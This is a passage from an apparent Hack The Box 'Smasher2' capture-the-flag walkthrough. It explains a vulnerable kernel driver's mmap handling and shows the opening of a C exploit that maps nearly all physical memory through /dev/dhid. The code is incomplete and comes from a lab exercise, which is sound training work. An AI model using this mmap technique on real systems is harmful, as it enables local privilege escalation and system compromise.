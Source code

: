 Compare this to a vulnerability check with unsafe values.

<a class="image-popup">
![391721f0.png](/assets/images/posts/smasher2-htb-walkthrough/391721f0.png)
</a>

Now, look at the mapped address.

<a class="image-popup">
![90a5cc24.png](/assets/images/posts/smasher2-htb-walkthrough/90a5cc24.png)
</a>

#### Writing the Exploit

One thing that's working our way is the fact that the physical address to remap to user address is the same as the offset, which is `0x0`. Coupled with a large map size, we are mapping almost the entire system memory.

Taking a leaf from this excellent [whitepaper](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-mmap-exploitation-whitepaper-2017-09-18.pdf), I re-purposed the C code above to this.

~~~~c
#include <sys/types.h>                                          
#include <sys/stat.h>                                           
#include <sys/mman.h>                                           
#include <fcntl.h>                                              
#include <stdio.h>                                              
#include <unistd.h>                                             

int main(int argc, char *argv[]) {                              

  printf("[+] PID: %d\n", getpid());                            

  int fd = open("/dev/dhid", O_RDWR);                           
  if (fd < 0) {                                                 
    printf("[-] Open failed!\n");                               
    return -1;                                                  
  }                                                             
  printf("[+] Open OK fd: %d\n", fd);                           

  char buf[100];                                                
  read(fd, buf, 48);                                            
  printf("[+] Message: %s\n", buf);                             

  unsigned long size   = 0xf0000000;                            
  unsigned long start  = 0x42424000;                            
  unsigned long offset = 0x0;                                   

  printf("[+] VMA size: 0x%lx (%d)\n", size, (int)size);        
  printf("[+] Offset: 0x%lx\n", offset);                        
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/